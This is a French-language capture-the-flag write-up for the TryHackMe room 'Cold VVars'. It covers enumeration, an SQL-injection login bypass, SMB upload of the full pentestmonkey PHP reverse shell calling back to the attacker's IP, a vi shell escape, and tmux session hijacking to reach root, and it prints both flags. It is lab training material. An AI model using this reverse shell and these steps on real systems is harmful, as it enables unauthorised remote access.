



# Cold VVars #

## Task 1 Challeng ##

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.170.12 cold.thm' >> /etc/hosts"
[sudo] Mot de passe de tim :

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A cold.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-31 09:30 CET
Nmap scan report for cold.thm (10.10.170.12)
Host is up (0.067s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE     VERSION
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
8080/tcp open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8082/tcp open  http        Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/31%OT=139%CT=1%CU=34336%PV=Y%DS=2%DC=T%G=Y%TM=617E5
OS:4AA%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)S
OS:EQ(SP=107%GCD=1%ISR=108%TI=Z%CI=Z%TS=A)OPS(O1=M506ST11NW6%O2=M506ST11NW6
OS:%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=F4B3%W
OS:2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M506NN
OS:SNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y
OS:%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR
OS:%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40
OS:%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G
OS:%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Host: INCOGNITO

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-10-31T08:32:38+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-10-31T08:32:38
|_  start_date: N/A

TRACEROUTE (using port 587/tcp)
HOP RTT      ADDRESS
1   32.58 ms 10.9.0.1
2   58.76 ms cold.thm (10.10.170.12)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 129.97 seconds

```

Nmap nous montre plusieurs services qui sont : 
Le service Samba sur les ports 139 et 445.   
Le servie HTML sur les port 8080 et 8082.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://cold.thm:8080 -w /usr/share/dirb/wordlists/common.txt -t 100 -q
/.htaccess            (Status: 403) [Size: 275]
/dev                  (Status: 301) [Size: 309] [--> http://cold.thm:8080/dev/]
/index.html           (Status: 200) [Size: 10918]                              
/index.php            (Status: 200) [Size: 4]                                  
/server-status        (Status: 403) [Size: 275]                                
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://cold.thm:8080/dev/ -w /usr/share/dirb/wordlists/common.txt -x html,php,txt -t 100 -q
/note.txt             (Status: 200) [Size: 45]
tim@kali:~/Bureau/tryhackme/write-up$ curl http://cold.thm:8080/dev/note.txt
Secure File Upload and Testing Functionality
```

On trouve avec gobuster sur le port 8080, un répertoire dev et un fichier note.txt.   
Le fichier note.txt nous indique que l'on téléverser un fichier.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://cold.thm:8082 -w /usr/share/dirb/wordlists/common.txt -t 100 -q
/Login                (Status: 200) [Size: 1605]
/login                (Status: 200) [Size: 1605]
/static               (Status: 301) [Size: 179] [--> /static/]
```

On trouve un lien login.   
    

On est bien sur une page d'identification.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget  https://raw.githubusercontent.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/master/SQL%20Injection%20Cheat%20Sheet.txt -nv
2021-10-31 10:22:00 URL:https://raw.githubusercontent.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/master/SQL%20Injection%20Cheat%20Sheet.txt [942/942] -> "SQL Injection Cheat Sheet.txt" [1]
```




On télécharge un liste d'injection SQL.   
Avec burp on injecte les requêtes SQL.  
Plusieurs injections fonctionnent et qui donne comme résultat les identifiants.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient -L \\cold.thm
Enter WORKGROUP\tim's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	SECURED         Disk      Dev
	IPC$            IPC       IPC Service (incognito server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

Pas de partage en lecture et écriture.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient \\\\cold.thm\\Secured -U ArthurMorgan
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 22 00:04:28 2021
  ..                                  D        0  Thu Mar 11 13:52:29 2021
  note.txt                            A       45  Thu Mar 11 13:19:52 2021

		7743660 blocks of size 1024. 4494284 blocks available
smb: \> get note.txt
getting file \note.txt of size 45 as note.txt (0,3 KiloBytes/sec) (average 0,3 KiloBytes/sec)
smb: \> exit
tim@kali:~/Bureau/tryhackme/write-up$ cat note.txt 
Secure File Upload and Testing Functionality
```

On peut se connecter avec les identifiants : ArthurMargan:DeadEye  
On récupère la note.txt, c'est le même message que celui sur le site.   

```php
tim@kali:~/Bureau/tryhackme/write-up$ cat reverseShell.php 

  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '10.9.228.66';  // You have changed this
  $port = 1234;  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 
```

On récupère un reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ smbclient \\\\cold.thm\\Secured -U ArthurMorgan
Enter WORKGROUP\ArthurMorgan's password: 
Try "help" to get a list of possible commands.
smb: \> put reverseShell.php
putting file reverseShell.php as \reverseShell.php (37,1 kb/s) (average 37,1 kb/s)
smb: \> exit
```

On transfert le reverseShell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute sur le port 1234 pour avoir le shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://cold.thm:8080/dev/reverseShell.php
```

On exécute le reverse shell.   

**User.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.170.12.
Ncat: Connection from 10.10.170.12:47218.
Linux incognito 4.15.0-143-generic #147-Ubuntu SMP Wed Apr 14 16:10:11 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 09:33:02 up  1:06, 20 users,  load average: 0.00, 0.00, 0.12
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
marston  pts/0    tmux(979).%0     08:29    1:03m  1.03s  1.03s -bash
marston  pts/1    tmux(979).%1     08:29    1:03m  0.79s  0.79s -bash
marston  pts/2    tmux(979).%2     08:29    1:03m  1.16s  1.16s -bash
marston  pts/3    tmux(979).%3     08:29    1:03m  0.87s  0.87s -bash
marston  pts/4    tmux(979).%4     08:29    1:03m  0.57s  0.57s -bash
marston  pts/5    tmux(979).%5     08:29    1:03m  0.87s  0.87s -bash
marston  pts/6    tmux(979).%6     08:29    1:03m  1.19s  1.19s -bash
marston  pts/7    tmux(979).%7     08:29    1:03m  1.02s  1.02s -bash
marston  pts/8    tmux(979).%8     08:29    1:03m  0.79s  0.79s -bash
marston  pts/9    tmux(979).%9     08:29    1:03m  0.65s  0.65s -bash
marston  pts/10   tmux(979).%10    08:29    1:03m  1.03s  1.03s -bash
marston  pts/11   tmux(979).%11    08:29    1:02m  0.88s  0.00s sshpass -p zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz ssh root@localhost
marston  pts/12   tmux(979).%12    08:29    1:03m  0.64s  0.64s -bash
marston  pts/13   tmux(979).%13    08:29    1:03m  0.88s  0.88s -bash
marston  pts/14   tmux(979).%14    08:29    1:03m  1.09s  1.09s -bash
marston  pts/15   tmux(979).%15    08:29    1:03m  0.87s  0.87s -bash
marston  pts/16   tmux(979).%16    08:29    1:03m  1.11s  1.11s -bash
marston  pts/17   tmux(979).%17    08:29    1:03m  1.18s  1.18s -bash
marston  pts/18   tmux(979).%18    08:29    1:03m  1.04s  1.04s -bash
root     pts/20   127.0.0.1        08:30    1:02m  0.40s  0.40s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ ls /home  
ArthurMorgan
marston
$ cat /home/ArthurMorgan/user.txt
ae39f419ce0a3a26f15db5aaa7e446ff
```

Dans home il y a deux utilisateurs.  
On lit le fichier user.txt dans le répertoire ArthurMorgan.  
Le flag est : ae39f419ce0a3a26f15db5aaa7e446ff    

**Root.txt**  

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@incognito:/home/ArthurMorgan$
su ArthurMorgan
Password: DeadEye

$ id
id
uid=1001(ArthurMorgan) gid=1002(ArthurMorgan) groups=1002(ArthurMorgan),1001(smbgrp)
$ env
env
OPEN_PORT=4545
MAIL=/var/mail/ArthurMorgan
USER=ArthurMorgan
SHLVL=1
OLDPWD=/home
HOME=/home/ArthurMorgan
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
LOGNAME=ArthurMorgan
JOURNAL_STREAM=9:20125
_=-tnl
XDG_SESSION_ID=c1
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
INVOCATION_ID=55b786a1043647c08c6b80489d6390f3
XDG_RUNTIME_DIR=/run/user/1001
APACHE_LOCK_DIR=/var/lock/apache2
LANG=en_US.UTF-8
SHELL=/bin/sh
APACHE_RUN_GROUP=www-data
APACHE_RUN_USER=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/home/ArthurMorgan
```

On se connecte sous le compte de ArthurMorgan.  
Dans le variable d'environnement, il y a une indication qui dit que le port 4545 est ouvert.   

```bash
ArthurMorgan@incognito:/$ nc -lvp 4545
nc -lvp 4545
Listening on [0.0.0.0] (family 0, port 4545)
Connection from localhost 36874 received!


ideaBox
1.Write
2.Delete
3.Steal others' Trash
4.Show'nExit
4
```

On écoute sur le port 4545.  
On voit apparaitre un menu.   
On choisit 4 et tombe dans l'éditeur vi.  

```bash
:!/bin/bash
d
id
uid=1002(marston) gid=1003(marston) groups=1003(marston)
```

On exécute un shell sous vi et on a un shell avec les droits marston.   

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
marston@incognito:~$ 
marston@incognito:~$ ps -A 
ps -A 
ps -A 
  PID TTY          TIME CMD
...
 918 ?        00:00:00 (sd-pam)
  933 ?        00:00:00 tmux: server
  934 pts/0    00:00:00 bash
...

marston@incognito:~$ tmux ls
tmux ls
tmux ls
0: 9 windows (created Sun Oct 31 10:17:12 2021) [80x24]

```

On voit qu'il une session tmux qui est active.  

```bash
marston@incognito:~$ export TERM=xterm
export TERM=xterm
export TERM=xterm
marston@incognito:~$ ^Z
[1]+  Stoppé                 nc -lvnp 1234
tim@kali:~/Bureau/tryhackme/write-up$ stty raw -echo; fg

tmux attach -t 0

whoami                                  │USER=marston
marston@incognito:~$ whoami             │PWD=/home/marston
marston                                 │HOME=/home/marston
marston@incognito:~$                    │TMUX=/tmp/tmux-1002/default,933,0
                                        │XDG_DATA_DIRS=/usr/local/share:/usr/sha
                                        │re:/var/lib/snapd/desktop
                                        │OPEN_PORT=4545
                                        │MAIL=/var/mail/marston
                                        │TERM=screen
                                        │SHELL=/bin/bash
                                        │TMUX_PANE=%1
                                        │SHLVL=3
                                        │LOGNAME=marston
                                        │XDG_RUNTIME_DIR=/run/user/1002
                                        │PATH=/usr/local/sbin:/usr/local/bin:/us
                                        │r/sbin:/usr/bin:/sbin:/bin:/usr/games:/
                                        │usr/local/games:/snap/bin
                                        │LESSOPEN=| /usr/bin/lesspipe %s
                                        │_=/usr/bin/env
                                        │marston@incognito:~$ id
                                        │uid=1002(marston) gid=1003(marston) gro
                                        │ups=1003(marston)
                                        │marston@incognito:~$ 
[0] 0:bash* 1:bash  2:bash  3:bash  4:bash  5:bash > "incognito" 10:36 31-Oct-21
```

On arrive a une session tmux.   

```bash
root@incognito:~# id                    │marston@incognito:~$
id                                      │
uid=0(root) gid=0(root) groups=0(root)
root@incognito:~# cat /root/root.txt
cat /root/root.txt
42f191b937ea71cd2052a06a7a08585a
root@incognito:~# 


 ───────────────────────────────────────├───────────────────────────────────────
marston@incognito:~$
 xit                                    │


[0] <ash  2:bash  3:bash  4:bash  5:bash- 6:sshpass* "incognito" 10:39 31-Oct-21
```

On quitte les sessions avec exit, jusqu'a tomber sur un shell avec les droits root.  
On lit le fichier root.txt dans le répertoire root.  
Le flag est : 42f191b937ea71cd2052a06a7a08585a   
